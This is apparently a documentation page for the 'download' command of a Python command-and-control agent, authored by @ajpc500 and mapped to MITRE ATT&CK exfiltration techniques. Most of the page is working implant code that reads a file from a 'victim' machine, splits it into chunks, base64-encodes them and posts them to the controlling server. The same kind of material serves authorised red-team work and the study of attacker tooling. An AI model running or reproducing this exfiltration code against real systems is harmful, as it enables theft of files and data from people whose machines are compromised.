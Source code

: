 +++
title = "download"
chapter = false
weight = 100
hidden = false
+++

## Summary

Download a file from the target machine. 
     
- Python Versions Supported: 2.7, 3.8     
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

#### remote_path

- Description: /remote/path/on/victim.txt  
- Required Value: True  
- Default Value: None  

## Usage

```
download /remote/path
```

## MITRE ATT&CK Mapping

- T1020
- T1030
- T1041

## Detailed Summary
This function uses API calls to chunk and transfer a file from the agent:

```Python
    def download(self, task_id, file):
        file_path = file if file[0] == os.sep \
                else os.path.join(self.current_directory,file)

        file_size = os.stat(file_path).st_size 
        total_chunks = int(file_size / CHUNK_SIZE) + (file_size % CHUNK_SIZE > 0)

        data = {
            "action": "post_response", 
            "responses": [
            {
                "task_id": task_id,
                "total_chunks": total_chunks,
                "full_path": file_path,
                "chunk_size": CHUNK_SIZE
            }]
        }
        initial_response = self.postMessageAndRetrieveResponse(data)
        chunk_num = 1
        with open(file_path, 'rb') as f:
            while True:
                if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                    return "Job stopped."

                content = f.read(CHUNK_SIZE)
                if not content:
                    break # done

                data = {
                    "action": "post_response", 
                    "responses": [
                        {
                            "chunk_num": chunk_num,
                            "file_id": initial_response["responses"][0]["file_id"],
                            "chunk_data": base64.b64encode(content).decode(),
                            "task_id": task_id
                        }
                    ]
                }
                chunk_num+=1
                response = self.postMessageAndRetrieveResponse(data)

```